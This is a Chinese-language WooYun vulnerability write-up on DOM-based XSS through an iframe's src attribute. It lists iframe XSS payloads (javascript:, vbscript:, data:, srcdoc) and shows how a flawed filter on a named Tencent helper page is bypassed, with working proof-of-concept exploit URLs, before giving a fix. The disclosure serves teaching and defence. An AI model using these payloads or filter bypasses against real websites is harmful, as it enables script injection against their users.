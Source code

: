 # 11\. Dom Xss 进阶 [善变 iframe]

> 来源：[11\. Dom Xss 进阶 [善变 iframe]](http://www.wooyun.org/bugs/wooyun-2010-016223)

## 简要描述

有时候，输出还会出现在 `<iframe src="[输出]"></iframe>` 。 iframe 的 src 属性本来应该是一个网址，但是 iframe 之善变，使得 它同样可以执行 javascript，而且可以用不同的姿势来执行。这一类问题，我将其归为[路径可控]问题。当然上面说到的是普通的反 射型 XSS。有时候程序员会使用 javascript 来动态的改变 iframe 的 src 属性，譬如：`iframeA.src="[可控的 url]";` 同样会导致 XSS 问题，来看看本例吧～

## 详细说明

1\. 先来说说 iframe 的变化。

1.1 最好懂的，onload 执行 js

```
<iframe onload="alert(1)"></iframe> 
```

1.2 src 执行 javascript 代码

```
<iframe src="javascript:alert(1)"></iframe> 
```

3\. IE 下 vbscript 执行代码

```
<iframe src="vbscript:msgbox(1)"></iframe> 
```

1.4 Chrome 下 data 协议执行代码

```
<iframe src="data:text/html,<script>alert(1)</script>"></iframe> Chrome 
```

1.5 上面的变体

```
<iframe src="data:text/html,<script>alert(1)</script>"></iframe> 
```

1.6 Chrome 下 srcdoc 属性

```
<iframe srcdoc="<script>alert(1)</script>"></iframe> 
```

2\. 有兴趣的，可以一个一个的去测试上面的效果，注意浏览器的特异性哦。

3\. 接着我们来看看具体的例子。

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=aaaaaa&gid=yl&cid=68&from= 
```

4\. 我们先开调试工具，看看有没有可见的输出。

![image](img/Image_054.jpg)

可以看到，我们参数的 aaaaaa 被带入到了`<iframe src="这里"></iframe>`。

这样一来，就满足了我们的使用条件。 我们试试

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=javascript:alert(1);&gid=yl&cid=68&from= 
```

。。竟然没反应。我们来看看刚才的那个地方。

![image](img/Image_055.jpg)

可以看到，src 这次没属性了，看来腾讯做了什么过滤。我们继续搜索下一个 toolframe 试试。

恩，看来就是这段代码导致的。

![image](img/Image_056.jpg)

一起看看这段代码。

```
function OpenFrame(url) {
    if (url.toLowerCase().indexOf('http://') != '-1' || 
        url.toLowerCase().indexOf('https://') != '-1' || 
        url.toLowerCase().indexOf('javascript:') != '-1') 
        return false; 
    document.getElementById("toolframe").src = url;
} 
```

不难看出，腾讯对 javascript:做出了判断。

```
document.getElementById("toolframe").src = url; 
```

这句是导致 XSS 的一句代码。而 openFrame 的 url 参数则来自于(无关代码省略)：

```
...
var tool_url = getQueryStringValue("turl");
...
openFrame(tool_url);
... 
```

5\. 根据我们上面说道的 iframe 的利用方法，我们不难看出，腾讯的过滤是不完善的。

在 IE 下，我们可以使用 vbscript 来执行代码。 vbscript 里 ' 单引号表示注释，类似 JS 里的`//`

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=vbscript:msgbox(1)'&gid=yl&cid=68&from= 
```

![image](img/Image_057.jpg)

```
http://helper.qq.com/appweb/tools/tool-detail.shtml?turl=data:text/html,<script>alert(1)</script>'&gid=yl&cid=68&from= 
```

![image](img/Image_058.jpg)

6\. 就到这里。

## 修复方案

危险的不光是 javascript:， vbscript:, data: 等同样需要过滤。